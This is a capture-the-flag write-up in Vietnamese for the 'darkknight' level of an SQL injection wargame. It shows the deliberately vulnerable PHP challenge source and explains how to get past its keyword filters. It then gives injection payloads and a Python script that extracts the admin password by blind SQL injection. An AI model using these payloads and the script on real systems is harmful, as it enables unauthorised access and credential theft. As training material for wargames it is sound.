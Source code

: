 darkknight
===
### Description
- Source:
```
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

### Solution
- Phân tích code: Có 2 tham số để chúng ta input vào là `pw` và `no`. `pw` bị filter `'`, `no` bị filter `', substr, ascii, =`. Kết quả câu query đầu tiên chỉ là in ra `Hello guest` hoặc `Hello admin` nếu như `pw` và `no` đúng. Để hiện thị được `Hello admin` thì chúng ta cần tạo payload sao cho câu query select id ở admin vì vậy payload như sau `?pw=1&no=1||1 like 1 %26%26 id like 0x61646d696e-- -`
- Ở query tiếp theo nếu như kết quả của `pw` được trả về từ database trùng với `pw` mình nhập vào thì sẽ giải quyết được bài này. Như bài trước mình đã nói chúng ta có thể thay thế `or` bằng `||`, `and` bằng `&&`, `substr` bằng `mid, left, right,...` ở đây mình sử dụng left, `=` bằng `like`

#### Payload
- Code:
```
import requests
import string

url="https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php"
header = {'Cookie':'PHPSESSID=l0ppfki89ui4onrms8661i27el'}
flag = ''
lists = string.digits+string.ascii_lowercase+string.ascii_uppercase
for i in range(1,256):
	for j in lists:
		temp = flag+j
		param = f'pw=1&no=1||1 like 1 %26%26 id like 0x61646d696e %26%26 left(pw,{i}) like "{temp}"-- -'
		print(param)
		r = requests.get(url=url,params=param,headers=header)
		if "Hello admin" in r.text:
			flag += j
			print(flag)
			break
	if len(flag)==8:
		exit(0)
```